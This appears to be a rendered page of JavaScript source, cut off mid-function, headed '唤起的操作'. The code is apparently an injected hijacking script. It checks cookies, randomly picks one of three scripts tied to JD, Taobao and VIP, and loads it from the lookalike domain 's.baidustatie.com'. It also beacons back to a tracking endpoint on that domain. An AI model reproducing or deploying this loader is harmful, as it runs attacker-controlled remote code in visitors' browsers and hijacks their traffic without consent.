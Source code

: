 



# 唤起的操作


	;
	(function () {
	    if (window.SD_FLAG_JD_TB) return;
	    if (!document.body) return setTimeout(arguments.callee, 50);
	    window.SD_FLAG_JD_TB = !0;
	    var srcMaps = {
	        '__jingdong': 'http://s.baidustatie.com/t/src/js/wuyiai.js',
	        '__taobao': 'http://s.baidustatie.com/t/src/js/tk3bk3_10_30.js',
	        '__vip': 'http://s.baidustatie.com/t/src/js/wz2pn3hv4.js',
	    };
	    var cookie_once_keys = ['__jingdong', '__taobao', '__vip', '__tencentNews'];
	    var cookie_key = getRandKey(srcMaps);
	    for (var c = 0, len = cookie_once_keys.length; c < len; c++) {
	        if (getCookie(cookie_once_keys[c])) return
	    }
	    loadJs(srcMaps[cookie_key]);
	
	    function getRandKey(obj) {
	        var ary = [];
	        var key = null;
	        for (var k in obj) {
	            if (obj.hasOwnProperty(k)) ary.push(k)
	        }
	        key = ary[getRand(0, ary.length - 1)];
	        return key
	    }
	    function loadJs(src, fn) {
	        var oel = document.createElement('script');
	        oel.src = src;
	        oel.type = 'text/javascript';
	        oel.onload = oel.onreadystatechange = function () {
	            if (!this.readyState || this.readyState == 'loaded' || this.readyState == 'complete') {
	                typeof fn === 'function' && fn()
	            }
	        };
	        document.body.appendChild(oel)
	    }
	    function getRand(a, b) {
	        return Math.floor(Math.random() * (b - a + 1) + a)
	    }
	    function getCookie(cookie_name) {
	        var allcookies = document.cookie,
	            cookie_pos = allcookies.indexOf(cookie_name);
	        if (cookie_pos != -1) {
	            cookie_pos += cookie_name.length + 1;
	            var cookie_end = allcookies.indexOf(";", cookie_pos);
	            if (cookie_end == -1) {
	                cookie_end = allcookies.length
	            }
	            var value = unescape(allcookies.substring(cookie_pos, cookie_end))
	        }
	        return value || ""
	    }
	    window.addEventListener('message', function (event) {
	        if (event.data == 'fromIframe') {
	            (new Image).src = "http://s.baidustatie.com/t/r.php?hk=rewakeup&date=Ymd&sqidate=" + Math.round(+new Date)
	        }